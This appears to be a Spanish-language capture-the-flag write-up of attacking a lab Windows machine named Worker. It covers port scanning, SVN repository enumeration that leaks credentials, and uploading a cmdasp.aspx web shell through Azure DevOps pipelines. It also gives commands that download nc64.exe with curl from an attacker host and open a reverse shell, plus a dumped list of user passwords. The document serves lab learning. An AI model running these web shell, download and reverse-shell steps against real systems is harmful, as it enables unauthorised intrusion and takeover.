




# Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL

TTL = 127
Indica que es un equipo Windows
Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.203 -oG PortStatus

Puertos abiertos

* 80
* 3690
* 5985

Escaneo de servicios en puertos abiertos 

nmap -p80,3690,5985 -sCV 10.10.10.203 -oN services

Intento identificar las tecnologías que corren en el servidor web
whatweb http://10.10.10.203

El puerto TCP 3690 se utiliza por el protocolo SVN (Subversion) para la transferencia de datos entre clientes y servidores de SVN. SVN es un sistema de control de versiones utilizado para el manejo de cambios en archivos y proyectos de software.

Lanzo un fuzzin con wfuzz con el diccionario para IIS pero no encuentra nada 
wfuzz -c --hc=404 -t 200 -w /home/kali/Downloads/SecLists-master/Discovery/Web-Content/IIS.fuzz.txt http://10.10.10.203/FUZZ

Lanzo el script http-enum de nmap pero no encuentra nada

Enumero con el protocolo svn (subversion)
svn ls svn://10.10.10.203

Agrego los dominios y subdominios al /etc/hots

El subdominio nos deja acceder a otra página

Fuzeo subdominios con GOBUSTER

gobuster vhost -u http://worker.htb -w /home/kali/Downloads/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -t 200

Para hacerlo con WFUZZ

wfuzz -c --hw=55 -t 200 -w /home/kali/Downloads/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.worker.htb" http://worker.htb

Dominios encontrados:

* http://alpha.worker.htb
* http://story.worker.htb
* http://cartoon.worker.htb
* http://lens.worker.htb
* http://dimension.worker.htb
* http://spectral.worker.htb
* http://twenty.worker.htb

Descargo el repositorio

svn checkout svn://10.10.10.203

Encontramos nuevo dominio

Lo agrego en /etc/hosts

Navego a http://devops.worker.htb y tiene un panel de autenticación

Logs del repositorio
svn log svn://10.10.10.203

Usuario encontrado: nathen

Reviso una versión anterior y encuentro un script .ps1
svn up -r 2

Encuentro credenciales

Usuario: nathen
Password: wendel98

Intento ingresar con evil-winrm pero no conecta

Confirmo que no son credenciales de dominio válidas

tree para ver todos los archivos del repositorio descargado “dimension”

Ingreso con las credenciales “nathen” y “wendel98” al portal http://devops.worker.htb
[Azure Devops]

Creamos una nueva rama basada en Master

Subo el cmdasp.aspx en la nueva rama

* --> Create a pull request

* --> Create

* --> Aprove

* --> Set auto-complete

Pipelines → Queue

http://alpha.worker.htb/cmdasp.aspx

Comparto carpeta con netcat
python3 -m http.server 80
Verifico que el equipo tiene curl

Desde webshell

curl http://10.10.14.10/nc64.exe -o C:\WIndows\TEmp\nc64.exe

Equipo atacante
rlwrap nc -nlvp 443

Desde Web shell
C:\Windows\Temp\nc64.exe -e cmd 10.10.14.10 443

net share

* Cambio de unidad --> w:
* dir

type passw

Encuentro credenciales

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday

net user usuario“, pertenecen al grupo Remote Management Users

Flag de usuario

whoami /priv  → No hay privilegios especiales
whoami /all → No hay grupos especiales
net user robisl

Autentico en http:/devops.worker.htb como robisl

* --> Pipelines
* --> Create
* --> Azure Repos Git
* --> Parts Unlimited
* --> StarterPipeline

En la línea pool: “Default” → Default no existe para este usuario

→ Project Settings → Agents Pools → Veo “Setup”

Save and Run

Recibo consola

Cambio de unidad “c:”

# Explotación y movimiento lateral

# Explotación WEB

# Escalada de privilegios

# Links útiles

* https://book.hacktricks.xyz/welcome/readme
* https://book.hacktricks.xyz/network-services-pentesting/3690-pentesting-subversion-svn-server
* https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx
* https://eternallybored.org/misc/netcat/

  
  
  
## Lenguajes utilizados
## Vulnerabilidades en aplicaciones

* Carga de web shell mediante Pipelines en Azure DevOps
## Ataques
## Escalada de privilegios

* Ejecución de scripts como NT Authority System mediante Pipelines. (Release Pipeline)
## Exploits
## Herramientas

* ping
* nmap
* nc64.exe
* cmdasp.aspx
* Protocolo SVN
* Pipelines en Azure DevOps: El despliegue de scripts mediante pipelines en Azure DevOps se llama "Release Pipeline" o "Pipeline de implementación". En esta etapa, se lleva a cabo la implementación de las aplicaciones o servicios creados en las etapas anteriores del pipeline, utilizando scripts y otros artefactos necesarios para el despliegue. La implementación puede incluir la configuración de infraestructura, la instalación de dependencias y la ejecución de scripts específicos para el entorno de destino. La implementación automatizada a través de pipelines permite una entrega más rápida, confiable y repetible de aplicaciones y servicios en Azure DevOps.
* WFUZZ
* GOBUSTER
* nmap con cript http-enum
* EVIL-WINRM : Herramienta utilizada para la explotación de vulnerabilidades en sistemas operativos Windows que permite el acceso remoto a una máquina en red utilizando el protocolo WinRM (Windows Remote Management) (Puerto 5985)(Puerto 5986 con SSL/TLS).
* crackmapexec
* Create pull request en Azure DevOps : "Create pull request" es una funcionalidad en Azure DevOps que permite a los desarrolladores colaborar y trabajar juntos en un proyecto de software mediante el control de versiones.

Un pull request (solicitud de extracción) es una función que permite a los desarrolladores notificar a sus compañeros de equipo que han completado una nueva función o corrección de errores y solicitar que se revisen y fusionen sus cambios en la rama principal del proyecto.

Con la función "Create pull request" en Azure DevOps, los desarrolladores pueden crear una solicitud de extracción de cambios que se hayan realizado en una rama específica del repositorio de código. Los revisores asignados a la solicitud de extracción pueden revisar los cambios, hacer comentarios y sugerencias, y aprobar o rechazar la solicitud.

Una vez que se aprueba la solicitud de extracción, los cambios se fusionan en la rama principal del repositorio de código y están disponibles para su uso en futuras versiones del proyecto. En resumen, "Create pull request" es una herramienta valiosa en Azure DevOps que permite a los desarrolladores trabajar juntos de manera más eficiente y colaborativa en proyectos de software.

* Create Pipelines en Azure DevOps
* Agents Pool en Azure DevOps
* curl
* net share : Se utiliza en sistemas operativos Windows, permite al usuario ver y administrar los recursos compartidos en una computadora en red.
 La salida del comando "net share" mostrará una lista de todos los recursos compartidos en la computadora, incluidos los nombres de recurso, las rutas de acceso, los permisos de acceso y los niveles de uso. También se pueden agregar, modificar o eliminar recursos compartidos utilizando los argumentos del comando "net share".
* w:
* whoami /priv : Se utiliza en sistemas operativos Windows y muestra los privilegios actuales del usuario actual. La salida del comando incluirá una lista de los privilegios asignados al usuario actual, que se han otorgado directamente al usuario o a través de los grupos a los que pertenece.
* whoami /all : Se utiliza en sistemas operativos Windows y muestra información detallada sobre la cuenta de usuario actual. La salida del comando incluirá información como el nombre de inicio de sesión, el SID (identificador de seguridad), los grupos de seguridad a los que pertenece el usuario, la información de inicio de sesión interactiva y de red, la información de inicio de sesión de servicio y los derechos asignados al usuario.

